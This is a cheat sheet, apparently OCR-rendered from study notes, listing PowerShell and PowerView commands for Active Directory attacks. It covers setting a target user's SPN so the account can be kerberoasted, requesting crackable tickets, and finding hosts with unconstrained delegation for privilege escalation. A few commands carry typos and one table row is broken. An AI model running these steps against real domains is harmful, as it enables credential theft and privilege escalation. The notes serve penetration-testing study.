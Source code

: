 # Set ServicePrincipalName
- With enough rights (GenericAll or GenericWrite), a target user's SPN can be set to anything (unique in the domain)
- We can request a TGS without special privileges and kerberoast the TGS
- If a user has a SPN, the account is being treated as a service and you can request an SPN

## Active Directory PowerShell Module
|Command|Description|
|---|---|
|Get-ADUser -Identity \$Username -Properties SericePrincipalName \| Select ServicePrincipalName|See if user has SPN set|
|Set-ADUser -Identity \$Username -ServicePrincipalNames @{Add=\$SPN'}|Set SPN for specified user|

## PowerView
|Command|Description|
|---|---|
|Invoke-ACLScanner -ResolveGUIDs |?{\$\_.IdentityReferenceName -match "\$GroupName"}|Enumerate permissions for a specified group on ACLs|
|Get-DomainUser -Identity \$Username \| Select serviceprincipalname | See if a user has a SPN set |
|Set-DomainObject -Identity \$Username -Set @{serviceprincipalname='\$SPN'} | Set SPN for specified user|
|Request-SPNTicket|Request SPN in john/hashcat attackable format|

## PowerShell Native
|Command|Description|
|---|---|
|Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "\$TargetSPN"|Request a SPN ticket|

# Unconstrained Delegation
- Allows the reuse of end-user credentials to access resources hosted on a different server (any service on any computer in the domain)
- Useful in multi-tier service or applications where Kerberos Double Hop is required
- When set for a particular service account, unconstrained delegation allows delegation to any service/resource on the domain as a user
- When enabled the DC places user's TGT inside the TGS. When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in LSASS for the server to reuse the user's TGT to access any other resource as the user.
    - If you're able to compromise the computer with unconstrained delegation and a Domain Admin or higher privileged user connects to the machine we can escalate privileges

## ActiveDirectory PowerShell Module
|Command|Description|
|---|---|
|Get-ADComputer -Filter {TrustedForDelegation -eq \$True}|Discover Domain Computers which have unconstrained delegation enabled|
|Get-ADUser -Filter {TrustedForDelegation -eq \$True}|Discover Users which are trusted for delegation|
